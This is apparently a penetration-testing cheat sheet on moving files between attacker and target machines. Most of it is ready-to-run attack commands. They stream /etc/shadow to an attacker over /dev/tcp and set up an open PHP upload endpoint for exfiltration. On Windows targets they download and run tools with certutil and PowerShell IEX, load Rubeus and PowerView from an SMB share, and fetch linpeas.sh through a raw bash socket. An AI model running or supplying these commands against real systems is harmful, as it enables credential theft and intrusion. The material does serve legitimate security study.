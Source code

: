 # Trasferring Files

## Linux Target -> Linux Attack

### Without any tools

```bash
cat /etc/shadow > /dev/tcp/IP/PORT

nc -lvnp 4444 > exfiltrated_shadow
```

## Linux -> \*

### HTTP Apache Server

```bash
# copy file to transfer in apache repo
cp /opt/Windows/windows-resources/binaries/nc.exe /var/www/html

# start apache service
systemctl start apache2

# Check Active internet connections
netstat -tulpn
```

### Setup Apache Server to Upload Files

One method of transfer file to attacker's machine is to set up an upload method that allow us to upload files through the Apache Server.

1. Create a .php file into '_/var/www/html_' with this body:

{% code title="upload.php" %}
```php
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
{% endcode %}

2. Create the uploads directory to house our uploads.

```bash
mkdir /var/www/uploads
chown www-data:www-data /var/www/uploads
```

3. Make a request with a file to Apache Server

```bash
wget --post-file=/PATH/TO/$FILENAME  http://$ATT_IP/upload.php
curl -F 'file=@/PATH/TO/$FILENAME' http://$ATT_IP/upload.php
```



## Linux -> Windows Targets

### Python Server

```bash
# Attacker linux machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
cd C:\
mkdir Temp
cd Temp

# 1
certutil -urlcache -f http://IP:80/file.exe file_name.exe

# 2
IEX(New-Object Net.WebClient).DownloadString("http://$IP:$PORT/file_name.exe")

# 3
IWR -Uri http://$IP/$FILENAME -OutFile C:\temp\$FILENAME
```

### SMB Server Impacket

_"This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. For optional authentication, it is possible to specify username and password or the NTLM hash. Example: smbserver.py -comment 'My share' TMP /tmp"_

<pre class="language-bash"><code class="lang-bash"># Att Kali Machine
cd /usr/share/doc/python3-impacket/examples
./smbserver.py $SHARE_NAME $(pwd) -smb2support

# from impacket tool 
impacket-smbserver smbFolder $(pwd) -smb2support

# Target machine
cp \\$ATT_IP\$SHARE_NAME\$FILENAME . # (ex. \\172.16.1.30\share\rubeus.exe .)
copy \\10.10.14.90\smbFolder\file.exe # ex
<strong>
</strong><strong># import a .ps1 module
</strong>. \\$ATT_IP\$SHARE_NAME\$FILENAME # (ex. \\172.16.1.30\share\PowerView.ps1)
</code></pre>



## Linux -> Linux Targets

### Python Server

{% code overflow="wrap" %}
```bash
# Attacker's machine
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Target machine
## WGET
wget http://IP:80/file.py -O /tmp/$FILENAME
## CURL
curl $IP/$FILENAME -o /tmp/$FILENAME
# BASH
bash -c '{ echo -ne "GET /linpeas.sh HTTP/1.0\r\nhost: 172.16.1.30\r\n\r\n" 1>&3; cat 0<&3; } \
   3<>/dev/tcp/172.16.1.30/80 \
   | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > linpeas.sh'
```
{% endcode %}

### FTP Server

```bash
# Attacker's machine
python3 -m pyftpdlib -w -p 21

# Target machine
## get a file from att machine
ftp $ATT_IP
ftp> ls -l
ftp> get $FILENAME

## upload a file to att machine
ftp $ATT_IP
ftp> ls -l
ftp> put $LOCAL_FILENAME
ftp> ls -l
```

## Windows Target -> Linux

```bash
# attacker machine (who receives)
nc -lnvp PORT > file.txt

# windows target machine
nc64.exe -nv ATT_IP ATT_PORT < file.txt -w 15
```









## Trasfering file with NC.exe

[#send-files-via-nc](shells.md#send-files-via-nc "mention")



## Resources

{% embed url="https://juggernaut-sec.com/linux-file-transfers-for-hackers/" %}

